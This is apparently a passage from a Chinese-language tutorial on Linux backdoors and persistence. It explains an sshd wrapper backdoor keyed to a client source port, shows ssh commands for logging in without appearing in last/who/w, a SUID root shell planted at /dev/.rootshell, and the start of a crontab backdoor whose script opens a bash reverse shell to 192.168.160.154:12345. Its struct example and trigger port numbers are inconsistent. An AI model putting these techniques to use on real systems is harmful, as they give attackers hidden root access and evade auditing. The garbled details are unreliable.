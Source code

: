 这里的sourceport可以进行修改，但是需要使用python的struct标准库实现。

```bash
python
>>> import struct
>>> buffer = struct.pack('>I6',19256)
>>> print repr(buffer)
'\x00\x00LF'
>>> buffer = struct.pack('>I6',13377)
>>> print buffer
4A
```

原理简单说明：`init`首先启动的是`/usr/sbin/sshd`,脚本执行到`getpeername`这里的时候，正则匹配会失败，于是执行下一句，启动`/usr/bin/sshd`，这是原始sshd。原始的sshd监听端口建立了tcp连接后，会fork一个子进程处理具体工作。这个子进程，没有什么检验，而是直接执行系统默认的位置的`/usr/sbin/sshd`，这样子控制权又回到脚本了。此时子进程标准输入输出已被重定向到套接字，`getpeername`能真的获取到客户端的TCP源端口，如果是19526就执行sh给个shell

简单点就是从sshd程序fork出一个子进程，输入输出重定向到套接字，并对连过来的客户端端口进行判断。

排查方法：

```bash
ls -al /usr/sbin/sshd
cat /usr/sbin/sshd
```

如果想彻底恢复的话，需要进行ssh服务的重装。

#### 4. ssh的隐身登录

在进行ssh登录时可以使用以下命令实现隐身登录，避免被`last\who\w`等指令检测到。

```bash
# 不被last\who\w等指令检测
ssh -T username@x.x.x.x /bin/bash -i

# 不记录ssh公钥在本地.ssh目录中
ssh -o UserKnownHostFile=/dev/null -T user@x.x.x.x /bin/bash -if
```

### 3. SUID Shell

需要配合普通用户进行使用。root权限下执行如下命令，普通用户运行/dev/.rootshell即可获得root权限：

```bash
cp /bin/bash /dev/.rootshell
chmod u+s /dev/.rootshell
```

备注：bash2针对suid做了一些防护措施，需要使用-p参数来获取一个root shell。另外，普通用户执行这个SUID shell时，一定要使用全路径。该方法个人认为较为鸡肋，且bash版本现在较高，可利用性不高。

### 4. crontab后门（文件落地）

`crontab`命令用于设置周期性被执行的指令，可以利用该命令新建shell脚本，利用脚本进行反弹。

Step 1 ：创建shell脚本，例如在/etc/evil.sh

```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.160.154/12345  0>&1
```
